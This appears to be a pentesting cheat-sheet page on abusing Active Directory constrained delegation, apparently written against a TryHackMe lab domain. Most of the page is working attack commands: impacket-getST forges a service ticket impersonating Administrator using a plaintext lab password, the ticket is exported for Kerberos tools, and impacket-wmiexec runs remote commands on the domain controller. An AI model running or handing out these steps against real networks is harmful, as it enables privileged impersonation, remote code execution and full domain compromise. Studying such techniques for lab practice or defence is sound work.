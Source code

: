 ```yaml
---
description: Constrained delegations
---
```


# AllowedToDelegate

The **AllowedToDelegateTo** privilege allows a user to request service tickets on behalf of another user to specific service&#x73;**.** This can be exploited to impersonate privileged users (like Administrator) and access services as them, enabling lateral movement or full domain compromise.

Request a Service Ticket as an Impersonated User:

{% code overflow="wrap" %}
```sh
impacket-getST -spn cifs/haystack.thm.corp -impersonate Administrator -dc-ip 10.10.25.131 thm.corp/DARLA_WINTERS:'Password123!'
```
{% endcode %}

* `-spn`: Target service you want access to
* `-impersonate`: High-privileged user to impersonate
* `DARLA_WINTERS`: Account with delegation rights
* `-dc-ip`: IP of the Domain Controller

Export the Ticket for Use with Kerberos Tools:

{% code overflow="wrap" %}
```shell
export KRB5CCNAME=Administrator@cifs_haystack.thm.corp@THM.CORP.ccache
```
{% endcode %}

Remote Command Execution via WMI Using Kerberos:

{% code overflow="wrap" %}
```sh
impacket-wmiexec -dc-ip 10.10.25.131 -target 10.10.25.131 thm.corp/administrator@haystack.thm.corp -no-pass -k
```
{% endcode %}

* `-no-pass`: No need to supply password (ticket-based).
* `-k`: Use Kerberos authentication.
* `-target`: Target system where you want to run commands.
